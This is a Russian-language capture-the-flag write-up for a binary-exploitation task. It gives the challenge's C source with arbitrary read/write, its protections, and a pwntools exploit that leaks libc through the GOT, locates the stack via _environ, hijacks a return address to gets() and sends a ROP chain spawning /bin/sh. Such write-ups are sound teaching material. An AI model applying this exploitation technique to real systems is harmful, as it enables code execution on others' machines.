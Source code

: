 ![Task](task.png)


Исходный код бинарника:
```c
size_t get_value() {
  char number[32] = {0};
  puts("Enter value.");
  puts(">>");
  fgets(number,18,stdin);
  size_t value = strtol(number,number+16,16);
  return value;
}

void arbitrary_write(size_t* addr,size_t value) {
  *addr = value;
}

size_t arbitrary_read(size_t* addr) {
  return *addr;
}

int main(int argc,char** argv) {
  int64_t option = 0;
  fflushx();
  while(1) {
    menu();
    option = get_value();
    switch(option) {
      case 1:
      {
        puts("Getting knowledge...");
        size_t addr = get_value();
        size_t val = arbitrary_read(addr);
        printf("Your knowledge: %lx\n",val);
      }
      break;
      case 2:
      {
        puts("Performing oneshot...");
        puts("Entering address...");
        size_t addr = get_value();
        size_t val = get_value();
        puts("Making shot...");
        arbitrary_write(addr,val);
      }
      case 3:
        exit(0);
      break;
      default:
        puts("Invalid number");
      break;
    }

  }
  exit(0);
}
```

Защиты бинарника:
```
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No
```

# Разработка эксплоита

Получение базы libc:
```py
def read(addr):
    io.writelineafter(b'>>', b'1')
    io.writelineafter(b'>>', hex(addr)[2:])
    io.readuntil(b'Your knowledge: ')
    return int(io.readline().decode().strip(), 16)

def write(addr, value):
    io.writelineafter(b'>>', b'2')
    io.writelineafter(b'>>', hex(addr)[2:])
    io.writelineafter(b'>>', hex(value)[2:])


io = start()

libc.address = read(exe.got['printf']) - libc.symbols['printf']
```

Через libc получим адрес адреса возврата в стековом фрейме функции `arbitrary_write()` (константа вычислена через gdb):
```py
environ = read(libc.symbols['_environ'])
retaddr = environ-0x180
```
В функции `arbitrary_write()` регистр `RDI` никак не затрагивается, соответственно функция, адрес которой записан в адресе возврата, получит такой же указатель, какой получила функция `arbitrary_write()`. Если перезаписать адрес возврата на адрес функции `gets()`, то она получит адрес стека как аргумент.
![GDB](gdb.png)

```py
write(retaddr, libc.symbols['gets'])
```

Запишем ROP в стек:
```py
rop = ROP(libc)
rop.system(next(libc.search(b"/bin/sh\x00")))
payload = fit({
    8: bytes(rop)
})
io.sendline(payload)
```
![Solve](solve.png)

**Примечание**: скачать libc из docker контейнера можно так: `sudo docker cp <CONTAINER>:/lib/x86_64-linux-gnu/libc.so.6 .`

